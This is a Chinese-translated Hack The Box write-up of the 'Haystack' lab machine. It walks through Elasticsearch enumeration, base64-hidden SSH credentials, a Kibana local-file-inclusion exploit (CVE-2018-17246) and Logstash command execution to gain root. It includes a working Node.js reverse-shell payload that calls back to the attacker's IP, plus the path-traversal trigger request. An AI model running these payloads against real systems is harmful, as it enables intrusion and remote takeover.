# hack the box——干草堆

> 原文：<https://infosecwriteups.com/hackthebox-haystack-db3682804890?source=collection_archive---------0----------------------->


[hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/195)

这是一篇关于我如何解决 HacktheBox 中的 Haystack 的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

这个盒子因为它的第一步而受到很多人的讨厌。它从图片中的一个 base64 字符串开始，您将在数据的“干草堆”中寻找它。之后，您将在框中获得 SSH 的凭证。然后，您必须利用 Kibana 中的 LFI 漏洞，然后创建一个将被 Logstash 接收的文件，从而以根用户身份执行代码。

# 侦察:

我首先通过调用命令运行初始 nmap 扫描，将其保存到我的 nmap 目录中

```
nmap -sV -sC -oA nmap/initial 10.10.10.115
```

结果是:

```
Nmap scan report for 10.10.10.115
Host is up (0.72s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
# Nmap done at Mon Jul  1 12:51:10 2019 -- 1 IP address (1 host up) scanned in 119.98 seconds
```

注意，根据我的初始扫描，端口 22(ssh)、端口 80(使用 nginx 的 http)和端口 9200 是打开的。端口 80 和端口 9200 上运行的 nginx 版本是相同的。

## 端口 80

检查端口 80，我得到的是这个:


这是大海捞针的形象。然后我检查页面源代码:



所以页面只有图片。我下载它并使用 exiftool 检查它:



我还对文件运行了字符串，并在最后发现了一个 base64 编码的字符串:



我通过调用以下命令对其进行解码:

```
echo -n bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==|base64 -d
```

输出是:

```
la aguja en el pajar es "clave"
```

由于它看起来像西班牙语，我很快就把它扔给谷歌翻译:



注意，这个键放在引号中，它在西班牙语中的对应词是“clave”。

## 端口 9200

检查端口 9200:



它的弹性搜索。通读它的[文档](https://www.elastic.co/guide/en/elasticsearch/reference/current/targz.html)，发现默认情况下它监听端口 9200(用于休息)。它还可以在端口 9300 上侦听节点通信。根据文件:

```
The **Elasticsearch** REST APIs are exposed using [JSON over HTTP](https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-http.html).
```

## 列表索引:

我首先开始列出指数:

```
curl [http://10.10.10.115:9200/_cat/indices?v](http://10.10.10.115:9200/_cat/indices?v)
```

这将返回集群中索引的高级信息。



有 3 个索引:。kibana(默认)、报价和银行。

然后，我可以使用以下格式在索引上运行搜索:

```
curl -X POST [http://10.10.10.115:9200/<index>/_search](http://10.10.10.115:9200/bank/_search)
```

然后我在银行索引上查了一下:

```
curl -X POST [http://10.10.10.115:9200/bank/_search](http://10.10.10.115:9200/bank/_search)
```

这会返回大量的 JSON 数据:

```
"took":2,"timed_out":false,"_shards":{"total":5,"successful":5,"skipped":0,"failed":0},"hits":{"total":1000,"max_score":1.0,"hits":[{"_index":"bank","_type":"account","_id":"25","_score":1.0,"_source":{"account_number":25,"balance":40540,"firstname":"Virginia","lastname":"Ayala","age":39,"gender":"F","address":"171 Putnam Avenue","employer":"Filodyne","email":"[virginiaayala@filodyne.com](mailto:virginiaayala@filodyne.com)","city":"Nicholson","state":"PA"}},{"_index":"bank","_type":"account","_id":"44","_score":1.0,"_source":{"account_number":44,"balance":34487,"firstname":"Aurelia","lastname":"Harding","age":37,"gender":"M","address":"502 Baycliff Terrace","employer":"Orbalix","email":"[aureliaharding@orbalix.com](mailto:aureliaharding@orbalix.com)","city":"Yardville","state":"DE"}},{"_index":"bank","_type":"account","_id":"99","_score":1.0,"_source":{"account_number":99,"balance":47159,"firstname":"Ratliff","lastname":"Heath","age":39,"gender":"F","address":"806 Rockwell Place","employer":"Zappix","email":"[ratliffheath@zappix.com](mailto:ratliffheath@zappix.com)","city":"Shaft","state":"ND"}},{"_index":"bank","_type":"account","_id":"119","_score":1.0,"_source":{"account_number":119,"balance":49222,"firstname":"Laverne","lastname":"Johnson","age":28,"gender":"F","address":"302 Howard Place","employer":"Senmei","email":"[lavernejohnson@senmei.com](mailto:lavernejohnson@senmei.com)","city":"Herlong","state":"DC"}},{"_index":"bank","_type":"account","_id":"126","_score":1.0,"_source":{"account_number":126,"balance":3607,"firstname":"Effie","lastname":"Gates","age":39,"gender":"F","address":"620 National Drive","employer":"Digitalus","email":"[effiegates@digitalus.com](mailto:effiegates@digitalus.com)","city":"Blodgett","state":"MD"}},{"_index":"bank","_type":"account","_id":"145","_score":1.0,"_source":{"account_number":145,"balance":47406,"firstname":"Rowena","lastname":"Wilkinson","age":32,"gender":"M","address":"891 Elton Street","employer":"Asimiline","email":"[rowenawilkinson@asimiline.com](mailto:rowenawilkinson@asimiline.com)","city":"Ripley","state":"NH"}},{"_index":"bank","_type":"account","_id":"183","_score":1.0,"_source":{"account_number":183,"balance":14223,"firstname":"Hudson","lastname":"English","age":26,"gender":"F","address":"823 Herkimer Place","employer":"Xinware","email":"[hudsonenglish@xinware.com](mailto:hudsonenglish@xinware.com)","city":"Robbins","state":"ND"}},{"_index":"bank","_type":"account","_id":"190","_score":1.0,"_source":{"account_number":190,"balance":3150,"firstname":"Blake","lastname":"Davidson","age":30,"gender":"F","address":"636 Diamond Street","employer":"Quantasis","email":"[blakedavidson@quantasis.com](mailto:blakedavidson@quantasis.com)","city":"Crumpler","state":"KY"}},{"_index":"bank","_type":"account","_id":"208","_score":1.0,"_source":{"account_number":208,"balance":40760,"firstname":"Garcia","lastname":"Hess","age":26,"gender":"F","address":"810 Nostrand Avenue","employer":"Quiltigen","email":"[garciahess@quiltigen.com](mailto:garciahess@quiltigen.com)","city":"Brooktrails","state":"GA"}},{"_index":"bank","_type":"account","_id":"222","_score":1.0,"_source":{"account_number":222,"balance":14764,"firstname":"Rachelle","lastname":"Rice","age":36,"gender":"M","address":"333 Narrows Avenue","employer":"Enaut","email":"[rachellerice@enaut.com](mailto:rachellerice@enaut.com)","city":"Wright","state":"AZ"}}]}}
```

然后，我可以将它传输到 jq 并过滤前 30 个结果:

```
curl -X POST [http://10.10.10.115:9200/bank/_search](http://10.10.10.115:9200/bank/_search) | jq . | head -n 30
```

输出是:



因为它的 JSON，它是一个名称值对。然后我可以使用 jq 查询进行过滤。我将尝试列出所有带有 balance 名称的值。要做到这一点:

```
curl -X POST [http://10.10.10.115:9200/bank/_search](http://10.10.10.115:9200/bank/_search) | jq -r '.hits | .hits | .[] | ._source | .balance'
```

上面的命令将 *_search* 寻找索引 *bank，*将其传送到来自 jq 的查询，该查询在名称 *hits* 中查找值，然后再次搜索 *hits* 中的值(其值是数组*)。[]* )，并在名称 *_source* 中查找该值。我这样做是为了练习 jq😂

我得到这样的输出:

```
40540
34487
47159
49222
3607
47406
14223
3150
40760
14764
```

由于指数银行中没有什么有趣的东西，我转到了报价。

## 引用

检查前 20 行:

```
curl -X POST [http://10.10.10.115:9200/quotes/_search](http://10.10.10.115:9200/quotes/_search) | jq . | head -n 20
```

输出是:

```
{
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "skipped": 0,
    "failed": 0
  },
  "hits": {
    "total": 253,
    "max_score": 1,
    "hits": [
      {
        "_index": "quotes",
        "_type": "quote",
        "_id": "14",
        "_score": 1,
        "_source": {
          "quote": "En América se desarrollaron importantes civilizaciones, como Caral
```

由于结构是 hits → hits → _source → quote，我可以调用下面的命令来获取 quote 字段，获取前 20 行，并再次通过管道将它传递给 jq(因为如果将 jq 的输出传递给 bash 命令，它会丢失其格式):

```
curl -X POST [http://10.10.10.115:9200/quotes/_search](http://10.10.10.115:9200/quotes/_search) | jq -r '.hits | .hits |.[] | ._source ' | head -n 20 | jq .
```

输出是:

```
{
  "quote": "En América se desarrollaron importantes civilizaciones, como Caral (la civilización más antigua de América, la cual se desarrolló en la zona central de Perú), los anasazi, los indios pueblo, quimbaya, nazca, chimú, chavín, paracas, moche, huari, lima, zapoteca, mixteca, totonaca, tolteca, olmeca y chibcha, y las avanzadas civilizaciones correspondientes a los imperios de Teotihuacan, Tiahuanaco, maya, azteca e inca, entre muchos otros."
}
{
  "quote": "Imperios español y portugués en 1790."
}
{
  "quote": "También se instalaron en América del Sur repúblicas de pueblos de origen africano que lograron huir de la esclavitud a la que habían sido reducidos por los portugueses, como el Quilombo de los Palmares o el Quilombo de Macaco."
}
{
  "quote": "En 1804, los esclavos de origen africano de Haití se sublevaron contra los colonos franceses, declarando la independencia de este país y creando el primer estado moderno con gobernantes afroamericanos."
}
{
  "quote": "A partir de 1809,23​ los pueblos bajo dominio de España llevaron adelante una Guerra de Independencia Hispanoamericana, de alcance continental, que llevó, luego de complejos procesos, al surgimiento de varias naciones: Argentina, Bolivia, Colombia, Costa Rica, Panamá, Chile, Ecuador, El Salvador, Guatemala, Honduras, México, Nicaragua, Paraguay, Perú, Uruguay y Venezuela. En 1844 y 1898 el proceso se completaría con la independencia de República Dominicana y Cuba, respectivamente."
}
{
  "quote": "En 1816, se conformó un enorme estado independiente sudamericano, denominado Gran Colombia, y que abarcó los territorios de los actuales Panamá, Colombia, Venezuela y Ecuador y zonas de Brasil, Costa Rica, Guyana, Honduras, Nicaragua y Perú. La República se disolvió en 1830."
}
```

我得到了一堆引用。如果我翻译一段较短的引言:



没什么有用的。它们只是一堆句子。然后，我试图从西班牙语的输出中搜索“clave”(只是纯粹的猜测)，但我什么也没得到。

由于我可能没有得到所有的数据，也只是略知皮毛，于是我寻找一种工具，可以从一个索引中转储所有的数据，然后从那里进行过滤。我偶然发现了 elasticsearch-dump。

[](https://github.com/taskrabbit/elasticsearch-dump) [## taskrabbit/elasticsearch-dump

### 移动和保存索引的工具。elastic dump 1 . 0 . 0 版更改了转储创建的文件的格式…

github.com](https://github.com/taskrabbit/elasticsearch-dump) 

然后，我可以从每个索引中转储数据。由于解码的 base64 中有一点西班牙语，我将首先转储引号索引，因为它的内容也有西班牙语。

映射数据:

```
elasticsearch-dump/bin/elasticdump --input=[http://10.10.10.115:9200/quotes](http://10.10.10.115:9200/quotes) --output=writeup/quote.mapping.json --type=mapping
```

转储数据:

```
elasticsearch-dump/bin/elasticdump --input=[http://10.10.10.115:9200/quotes](http://10.10.10.115:9200/quotes) --output=writeup/quote.data.json --type=data
```

根据我之前的操作，我可以在搜索报价时检查前 20 行:

```
cat quote.data.json | jq -r '._source' | head -n 20 | jq .
```

输出是:

```
{
  "quote": "En América se desarrollaron importantes civilizaciones, como Caral (la civilización más antigua de América, la cual se desarrolló en la zona central de Perú), los anasazi, los indios pueblo, quimbaya, nazca, chimú, chavín, paracas, moche, huari, lima, zapoteca, mixteca, totonaca, tolteca, olmeca y chibcha, y las avanzadas civilizaciones correspondientes a los imperios de Teotihuacan, Tiahuanaco, maya, azteca e inca, entre muchos otros."
}
{
  "quote": "Imperios español y portugués en 1790."
}
{
  "quote": "También se instalaron en América del Sur repúblicas de pueblos de origen africano que lograron huir de la esclavitud a la que habían sido reducidos por los portugueses, como el Quilombo de los Palmares o el Quilombo de Macaco."
}
{
  "quote": "En 1804, los esclavos de origen africano de Haití se sublevaron contra los colonos franceses, declarando la independencia de este país y creando el primer estado moderno con gobernantes afroamericanos."
}
```

前面的输出看起来很相似，但是当我使用 tail 检查最后一个报价值时:

```
cat quote.data.json | jq -r '._source' | tail -n 20
```

输出与之前不同:

```
{
"quote": "A pesar de ser considerada como una ciudad «relativamente segura», el nivel de temor en la población ha crecido de manera importante en el último tiempo. En 2007, un 22 % de su población manifestaba un «alto temor» de sufrir algún tipo de crimen en su contra, mientras en años anteriores las cifras eran considerablemente menores (en 2000 era de un 13,4 % y en 2005 de un 15,8 %). En comparación con otras ciudades del país, el promedio de este índice fuera de la capital es de un 15,9 % e incluso esta cifra es mayor que en las ciudades con mayor tasa de victimización: Iquique y Talca que poseen un 37,5 % y 35,9 % de victimización, sólo un 17,7 % y un 18,9 % de la población respectiva manifiesta un «alto temor». En el desglose por comunas, nuevamente las cifras más bajas están en el sector oriente, con Ñuñoa con un 10 %, y las más altas en El Bosque, con un 32,5 %.100​ Este alto grado de inseguridad que siente la población ha sido descrito como producto de las enormes brechas que diferencian a los habitantes de la ciudad y el rol de los medios de comunicación, entre otros.102"
}
```

由于这是一个与我之前能够查询的数据不同的数据，我针对整个转储再次搜索字符串“clave ”:

```
cat quote.data.json | grep clave
```

输出是:

```
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```

它们看起来像 base64。对它们进行解码会导致:

```
echo -n cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d
pass: **spanish.is.key**echo -n dXNlcjogc2VjdXJpdHkg |base64 -d
user: **security**
```

使用 SSH 的凭证，它的工作原理是:

```
root@kali:~/Documents/htb/boxes/haystack# ssh security@10.10.10.115
security@10.10.10.115's password: Last login: Sat Nov  2 00:34:58 2019 from 10.10.14.33[security@haystack ~]$ id && uname -a
uid=1000(security) gid=1000(security) groups=1000(security) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
Linux haystack 3.10.0-957.1.3.el7.x86_64 #1 SMP Thu Nov 29 14:49:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

现在可以读取 user.txt:

```
[security@haystack ~]$ cat user.txt
**04d18bc79....**
```

# 获取根目录:

这个盒子的根部是凉的。它让我了解了一项我并不熟悉的技术。我通过检查/etc/passwd 来开始我的枚举，以检查我可以升级到的其他潜在用户:

```
[security@haystack etc]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
security:x:1000:1000:security:/home/security:/bin/bash
elasticsearch:x:997:995:elasticsearch user:/nonexistent:/sbin/nologin
**logstash**:x:996:994:logstash:/usr/share/logstash:/sbin/nologin
nginx:x:995:993:Nginx web server:/var/lib/nginx:/sbin/nologin
**kibana**:x:994:992:kibana service user:/home/kibana:/sbin/nologin
```

看到有一个 kibana 和 logstash 用户，我运行 ps aux 来检查这些服务是否正在运行:

```
kibana     6307  0.5  5.4 1351328 210872 ?      Ssl  Nov01   1:07 /usr/share/kibana/bin/../node/bin/node --no-warnings /usr/share/kibana/bin/../src/cli -c /etc/kibana/kibana.yml
```

很明显，有一个 Kibana 服务正在运行。Kibana 是一个用于 Elasticsearch 的数据可视化插件。

阅读 Kibana 的文档，默认情况下，配置文件存储在/etc/kibana/kibana.yml 上。阅读其内容:

```
[security@haystack kibana]$ cat kibana.yml                                                                                                                                               
# Kibana is served by a back end server. This setting specifies the port to use.                                                                                                         
server.port: 5601                                                                                                                                                                        

# Specifies the address to which the Kibana server will bind. IP addresses and host names are both valid values.                                                                         
# The default is 'localhost', which usually means remote machines will not be able to connect.                                                                                           
# To allow connections from remote users, set this parameter to a non-loopback address.                                                                                                  
server.host: "127.0.0.1"
```

在本地主机端口 5601 上运行 curl，查看它是否正在运行:

```
[security@haystack kibana]$ curl 127.0.0.1:5601
<script>var hashRoute = '/app/kibana';
var defaultRoute = '/app/kibana';var hash = window.location.hash;
if (hash.length) {
  window.location = hashRoute + hash;
} else {
  window.location = defaultRoute;
```

由于再次检查端口 9200，Elasticsearch 的版本:

```
"version" : {
    "number" : "6.4.2"
```

然后我检查 elastic search 6 . 4 . 2 版的漏洞，一个 Kibana 漏洞非常突出:



您可以在此处了解该漏洞:

[](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/) [## 执行这个，我知道你有它|赛博方舟

### 2018 年 11 月 21 日| | Nethanel Coppenhagen | ki Bana 中的一个本地文件包含允许攻击者运行本地 JavaScript…

www.cyberark.com](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/) 

这篇文章探讨了由 CyberArk 实验室发现的 Kibana 中严重程度严重的本地文件包含(LFI)漏洞。Github 里有个帖子总结了一下:[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

## CVE-2018–17246

我创建了一个包含以下内容的文件:

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1339, "10.10.14.33", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

触发 LFI:

```
curl 127.0.0.1:5601/api/console/api_server?apis=../../../../../../../tmp/shell.js
```

我可以得到一个贝壳作为基巴纳:



检查 Kibana 组拥有的文件，删除 proc:

```
find / -group kibana 2>/dev/null | grep -v proc
```

logstash 文件夹很突出:



检查 conf.d 下的文件:



我看到这些文件在 kibana 组下，但归 root 用户所有。然后，我阅读了配置文件的内容:

## 输入. conf



## 过滤器. conf



## 输出.会议



所以基本上 input.conf 接受/opt/kibana/下的文件名为 logstash_*的文件，每 10 秒检查一次，设置类型为 execute。

然后，filter.conf 获取类型设置为“execute”的文件，并将文件中的消息与以下内容进行匹配:

```
“Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}"
```

你可以在这里阅读更多关于 grok 过滤的内容:[https://www . elastic . co/guide/en/log stash/current/plugins-filters-grok . html](https://www.elastic.co/guide/en/logstash/current/plugins-filters-grok.html)

然后，输出配置文件获取该文件并执行一个 shell 命令。从[文档](https://www.elastic.co/guide/en/logstash/current/plugins-inputs-exec.html)本身:该事件的`command`字段将是命令运行。这意味着我可以执行代码。

所以我们的文件应该是:

```
Ejecutar comando : <command here>
```

然后我创建一个名为 logstash_a 的文件，它将连接到我:



从我的监听器，我得到 shell 作为根:



我现在可以阅读 root.txt:



这就是我如何破解黑盒子里的干草堆。

我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

